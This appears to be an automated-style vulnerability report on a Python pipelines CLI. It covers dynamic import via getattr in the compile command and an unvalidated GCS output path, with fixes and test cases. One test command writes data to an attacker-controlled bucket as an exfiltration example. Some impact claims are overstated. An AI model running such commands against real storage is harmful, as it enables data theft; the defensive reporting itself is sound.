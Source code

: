 ## Combined Vulnerability Report

### Vulnerability 1: Arbitrary code execution via module and function injection in `compile` command

*   **Description:**
    An attacker can execute the `pipelines-cli compile` command and provide malicious input for the `module_name` and `function_name` arguments. The `compile` command in `src/pipelines/console.py` then calls `pipeline_compiler.compile` with these arguments. In `src/pipelines/pipeline_compiler.py`, the `_get_function_obj` function is called which uses `importlib.import_module(f"pipelines.{module_name}")` to dynamically import a module and `getattr(module, function_name)` to retrieve a function. Due to lack of input validation on `module_name` and `function_name`, an attacker can manipulate these arguments to import unintended modules within the `pipelines` package and call arbitrary functions within those modules. If an attacker can find and specify a module and function combination that leads to execution of dangerous operations, they can achieve arbitrary code execution.

    **Steps to trigger the vulnerability:**
    1. Execute the `pipelines-cli compile` command.
    2. Provide malicious input for the `module_name` and `function_name` arguments.
    3. The application dynamically imports a module and retrieves a function based on the attacker-controlled input.
    4. If a malicious module and function combination is provided, arbitrary code execution can occur.

*   **Impact:** Arbitrary code execution on the system running the `pipelines-cli` command. This could allow the attacker to read sensitive data, modify files, or compromise the system.

*   **Vulnerability Rank:** High

*   **Currently implemented mitigations:** None. The code directly uses user-provided input for module and function names in dynamic import and function call operations without any validation or sanitization.

*   **Missing mitigations:**
    *   Input validation and sanitization for `module_name` and `function_name` in the `compile` command.
    *   Implement a whitelist of allowed modules and functions that can be used in the `compile` command.
    *   Avoid dynamic import and `getattr` if possible, or restrict their usage to a safe and predefined set of modules and functions.

*   **Preconditions:** The attacker must have the ability to execute the `pipelines-cli compile` command.

*   **Source code analysis:**
    - File: `/code/src/pipelines/pipeline_compiler.py`
    ```python
    def _get_function_obj(module_name: str, function_name: str) -> Callable:
        """Returns function object given path to module file and function name."""
        module = importlib.import_module(f"pipelines.{module_name}") # [Vulnerable line] - Dynamic import with user-controlled module_name
        return getattr(module, function_name) # [Vulnerable line] - Dynamic function call with user-controlled function_name

    def compile(module_name: str, function_name: str, package_path: str) -> None:
        """Compiles pipeline function as string into JSON specification."""
        pipeline_func = _get_function_obj(module_name, function_name) # [Call to vulnerable function]
        _compile_pipeline_func(pipeline_func, package_path_)
    ```
    The `_get_function_obj` function in `/code/src/pipelines/pipeline_compiler.py` is vulnerable because it directly uses the `module_name` and `function_name` provided by the user as arguments to `importlib.import_module` and `getattr`.

*   **Security test case:**
    1. **Setup:** Ensure the `pipelines-cli` is installed and functional.
    2. **Create malicious command:** Construct a `pipelines-cli compile` command to call `get_timestamp` from `utils` module as a proof of concept for dynamic function call:
    ```bash
    pipelines-cli compile utils get_timestamp output.json
    ```
    3. **Execute command:** Run the crafted `pipelines-cli compile` command in the shell.
    4. **Verify execution:** Check if the command executes without errors. Successful execution demonstrates the ability to dynamically call functions using the `compile` command, highlighting the vulnerability of dynamic import and `getattr` without input validation.

---

### Vulnerability 2: Pipeline Input Injection via `gcs_filepath` parameter

*   **Description:**
    An attacker can inject malicious values into the `gcs_filepath` pipeline parameter via the `-p` option in the `pipelines-cli run` command. This parameter, used in the `sample_pipeline.py`, directly controls the output file path in Google Cloud Storage (GCS) for the `_save_message_to_file` component. By manipulating this parameter, an attacker could potentially overwrite or write files to arbitrary GCS paths accessible by the pipeline's service account. This is a pipeline input injection vulnerability because user-controlled input directly influences the pipeline's behavior without proper validation or sanitization within the pipeline code itself.

    **Steps to trigger the vulnerability:**
    1. Compile the `sample_pipeline.py` using `pipelines-cli compile sample_pipeline pipeline gs://path/to/pipeline.json`.
    2. Prepare a `pipeline-run-config.yaml` file with necessary configurations.
    3. Execute the pipeline using `pipelines-cli run pipeline-run-config.yaml -p "message=Malicious Content" -p "gcs_filepath=gs://attacker-controlled-bucket/malicious-file.txt"`.
    4. Observe that the pipeline attempts to write "Malicious Content" to the GCS path `gs://attacker-controlled-bucket/malicious-file.txt`.

*   **Impact:**
    High. Successful exploitation could lead to:
    *   **Data exfiltration/modification:** Write arbitrary content to GCS buckets, potentially exfiltrating data or modifying existing data.
    *   **Privilege escalation (in some scenarios):** Overwrite critical system files in GCS if the service account has overly permissive access.
    *   **Information disclosure:** Write data to attacker-accessible locations.

*   **Vulnerability Rank:** High

*   **Currently implemented mitigations:** None. No input validation or sanitization is implemented for pipeline parameters, including `gcs_filepath`.

*   **Missing mitigations:**
    *   Input validation and sanitization within the pipeline component for `gcs_filepath`.
        *   Path validation: Ensure the path conforms to expected patterns (e.g., starts with `gs://`, bucket name is valid).
        *   Path restriction: Restrict the output path to a predefined set of allowed buckets or directories.
    *   Principle of least privilege for service accounts: Ensure the service account has minimal necessary GCS write permissions.

*   **Preconditions:**
    *   The attacker needs to be able to execute the `pipelines-cli run` command.
    *   The Kubeflow pipeline is configured to use a service account with GCS write permissions.
    *   The pipeline uses user-provided input to construct file paths, like `gcs_filepath` in `sample_pipeline.py`.

*   **Source code analysis:**

    1.  **`src/pipelines/console.py`:** The `run` command parses `-p` options using `_parse_pipeline_args`.
    2.  **`src/pipelines/console.py` - `_parse_pipeline_args`:** No validation or sanitization is performed.
    3.  **`src/pipelines/pipeline_runner.py` - `run`:** User-provided parameters are passed to `vertex.PipelineJob`.
    4.  **`src/pipelines/sample_pipeline.py` - `_save_message_to_file` component:**
    ```python
    @dsl.component(base_image="python:3.10", packages_to_install=["cloudpathlib==0.10.0"])
    def _save_message_to_file(message: str, gcs_filepath: str) -> None:
        """Saves a given message to a given file in GCS."""
        import cloudpathlib as cpl

        with cpl.CloudPath(gcs_filepath).open("w") as fp: # gcs_filepath is directly used here
            fp.write(message)
    ```
    `_save_message_to_file` directly uses `gcs_filepath` without validation.

*   **Security test case:**

    **Pre-requisites:** GCP project with Vertex AI Pipelines, Terraform setup, `pipelines-cli` installed, `pipeline-run-config.yaml` configured, service account with GCS write access.

    **Steps:**
    1.  **Compile the sample pipeline:**
        ```bash
        pipelines-cli compile sample_pipeline pipeline gs://path/to/pipeline.json
        ```
    2.  **Prepare `pipeline-run-config.yaml`**.
    3.  **Execute pipeline with malicious `gcs_filepath`:**
        ```bash
        pipelines-cli run pipeline-run-config.yaml \
            -p "message=This is a test of file overwrite vulnerability" \
            -p "gcs_filepath=gs://attacker-controlled-bucket/pwned.txt"
        ```
    4.  **Verify exploit:** Check `gs://attacker-controlled-bucket/pwned.txt` for the message, confirming arbitrary GCS write.